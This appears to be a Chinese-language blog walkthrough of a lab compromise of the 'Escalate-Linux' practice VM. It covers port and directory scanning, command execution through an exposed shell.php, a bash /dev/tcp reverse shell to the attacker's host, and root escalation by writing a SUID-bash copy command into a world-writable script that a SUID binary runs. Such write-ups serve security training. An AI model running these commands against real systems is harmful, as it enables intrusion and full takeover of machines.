








+++
date = '2026-07-03T01:45:19+08:00'
draft = false
title = 'Escalate-Linux渗透'
+++

## 信息收集

1.主机存活探测

```
sudo nmap -sn 192.168.159.0/24 
## 扫描出来目标主机应该是192.168.159.133
```

2.端口服务,默认脚本扫描探测

```
└─$ nmap 192.168.159.133 -sV -sC -min-rate 2222 -r
Starting Nmap 7.98 ( https://nmap.org ) at 2026-07-01 11:57 +0800
Nmap scan report for 192.168.159.133
Host is up (0.000086s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33443/tcp6  mountd
|   100005  1,2,3      34643/tcp   mountd
|   100005  1,2,3      38995/udp   mountd
|   100005  1,2,3      47250/udp6  mountd
|   100021  1,3,4      32908/udp   nlockmgr
|   100021  1,3,4      41249/tcp6  nlockmgr
|   100021  1,3,4      46353/tcp   nlockmgr
|   100021  1,3,4      52118/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs         3-4 (RPC #100003)
MAC Address: 00:0C:29:DD:64:D7 (VMware)
Service Info: Host: LINUX

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: LINUX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2026-07-01T03:57:52
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: osboxes
|   NetBIOS computer name: LINUX\x00
|   Domain name: \x00
|   FQDN: osboxes
|_  System time: 2026-06-30T23:57:52-04:00
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.29 seconds
```

扫描结果主要是smba/nfs文件共享这方面的，80端口并没有什么用处，对网站做一个目录扫描

```
─$ dirsearch -u http://192.168.159.133/           
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                           
 (_||| _) (/_(_|| (_| )                                                                                                                                    
                                                                                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/usually/reports/http_192.168.159.133/__26-07-01_12-07-47.txt

Target: http://192.168.159.133/

[12:07:47] Starting:                                                                                                                                       
[12:07:48] 403 -  301B  - /.ht_wsr.txt                                      
[12:07:48] 403 -  304B  - /.htaccess.orig                                   
[12:07:48] 403 -  304B  - /.htaccess.bak1
[12:07:48] 403 -  306B  - /.htaccess.sample                                 
[12:07:48] 403 -  304B  - /.htaccess.save                                   
[12:07:48] 403 -  304B  - /.htaccess_orig                                   
[12:07:48] 403 -  305B  - /.htaccess_extra
[12:07:48] 403 -  302B  - /.htaccess_sc
[12:07:48] 403 -  302B  - /.htaccessOLD
[12:07:48] 403 -  303B  - /.htaccessOLD2                                    
[12:07:48] 403 -  302B  - /.htaccessBAK
[12:07:48] 403 -  294B  - /.htm                                             
[12:07:48] 403 -  295B  - /.html
[12:07:48] 403 -  304B  - /.htpasswd_test                                   
[12:07:48] 403 -  301B  - /.httr-oauth                                      
[12:07:48] 403 -  300B  - /.htpasswds
[12:07:49] 403 -  294B  - /.php                                             
[12:08:05] 403 -  303B  - /server-status                                    
[12:08:05] 403 -  304B  - /server-status/
[12:08:05] 200 -   29B  - /shell.php                                        
                                                                             
Task Completed        
```

## 漏洞发现

这边扫描出来了一个shell.php文件，去访问一看，是要我们传递一个参数给cmd



发现这个确实能用

现在做一些相关的信息收集出来，

```
uname -a:Linux osboxes 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
whoami:user6
pwd:/var/www/html 
## 当前网站目录下应该是没有权限创建文件编写的，测试了一下网站不可以访问其他的文件资源
```

## 反弹shell

到这里写入一句话木马应该是不行的，现在尝试一下反弹shell，这里反弹shell所需要用到的命令放到这里是会被url编码转义的，需要提前对这个命令进行编码

```
bash -c 'bash -i >& /dev/tcp/192.168.159.128/5000 0>&1'
```

编码这个传入给参数cmd拿到反弹shell

### 现在通过shell进行新一轮的信息收集

这里首先去看有没有sudo权限，sudo -l



提示这个好像是因为这个shell太残次了，弹出输入密码不行。    这个时候我看到的思路就可以去通过python升级成完整的交互式shell，但是现在这里是不行的

1. ls -la ~ 查看当前家目录用户的文件详情



2. cat /etc/group
3. cat /etc/crontab   查询 **系统级定时任务配置文件（cron 表）**



这里查询看到一个每五分种自动执行的一个脚本，然后查询了这个文件权限是只读的，这里没招了

4.查找suid提权文件

```
find / -perm -u=s -type f 2>/dev/null
```

从 `/` 根目录开始，全盘查找 **带有 SUID 权限的普通文件**，并隐藏没有权限访问时产生的错误信息。



这里看到一个直接叫shell的文件，到该目录查看一下文件权限



这里意外惊喜看到一个script.sh的文件，这个权限是所有人都是root权限

## suid提权

通过写入我们找到的这个.script.sh文件提权脚本进去，suid执行就能直接提权成功



恶意脚本

```
cp /bin/bash /tmp/sh
chmod +s /tmp/sh 
```

现在确实成功写进去了这个脚本，但是我们自己执行是没有什么用处的，需要root权限的用户执行的才能让我们通过suid提权成功，这里需要往回走一点，我们之前看到的shell这个脚本，

```
strings shell 

/lib64/ld-linux-x86-64.so.2
{X<vuo'S
libc.so.6
setuid
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
=y       
=W       
=Z       
AWAVI
AUATL
[]A\A]A^A_
./.script.sh
;*3$"
GCC: (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7696
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
shell.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

提权思路这里

```
shell 是 SUID root 程序
↓
你执行 ./shell
↓
./shell 以 root 有效权限运行
↓
./shell 内部调用 ./.script.sh
↓
.script.sh 又是全局可写的
↓
你把恶意命令写进 .script.sh
↓
这些命令被 root 身份执行
↓
生成 /tmp/sh 这个 SUID root bash
↓
执行 /tmp/sh -p 获得 root shell
```



这个是通过suid提权的算是，这里面的smba ，nfs等相关服务还没去看，应该是有其他链路进攻的


